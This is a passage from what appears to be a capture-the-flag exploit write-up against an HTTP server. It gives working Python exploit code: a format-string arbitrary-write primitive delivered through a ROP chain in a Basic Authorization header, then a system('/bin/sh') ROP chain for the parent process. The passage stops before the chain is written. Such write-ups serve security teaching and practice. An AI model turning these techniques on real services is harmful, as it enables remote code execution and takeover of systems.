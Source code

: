 

**:boom: Arbitrary Write in the parent process**

Now that we successfully managed to write arbitrary data in the shared memory, that will be passed to `syslog`, we can spend some time developing a arbitrary write primitive.

We find by debugging, that our controlled data in our format string is located at offset `26` on the stack. We can then exploit a classic format string vulnerability to overwrite arbitrary data. As a reminder, what we managed to leak in the child process is still valid in the parent process, are they address space are the same!

We just take the previous code to write arbitrary data to shared memory, to exploit the format string vulnerability.

```python
def write_word(where, what):
    what = (what - len("LOGIN ")) & 0xffff
    buf = b'%' + str(what).encode() + b'c%26$hn'
    buf += b'A'*(0x82-len(buf))
    buf += p64(where) # Located at offset 26

    login = b'admin:admin\x00'
    login += b'A'*252
    login += p64(canary)
    login += p64(0xdeadbeefcafebabe)
    login += p64(pop_rdi)
    login += p64(0)
    login += p64(pop_rsi)
    login += p64(shared_base)
    login += p64(pop_rdx)
    login += p64(len(buf) + 2)
    login += p64(libc_base + libc.sym['read'])
    login += p64(pop_rax)
    login += p64(0x3c)
    login += p64(pop_rdi)
    login += p64(0)
    login += p64(syscall)

    auth = b'Basic ' + base64.b64encode(login)

    req = make_request(headers={
        b'Authorization': auth,
        b'Connection': b'keep-alive',
    })

    r.send(req)
    r.send(p16(0x0101) + buf)
```



We finally have to overwrite the data next to the main return address in the parent process by a simple `system("/bin/sh")` ROP chain:

```python
ret_addr = environ_addr - 0x100
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

# We use a ret here to avoid stack alignement issues
# check https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul for more informations
rop = p64(pop_rdi+1) 
rop += p64(pop_rdi)
rop += p64(binsh_addr)
rop += p64(system_addr) # system("/bin/sh")

# We write word by word the ROP chain
```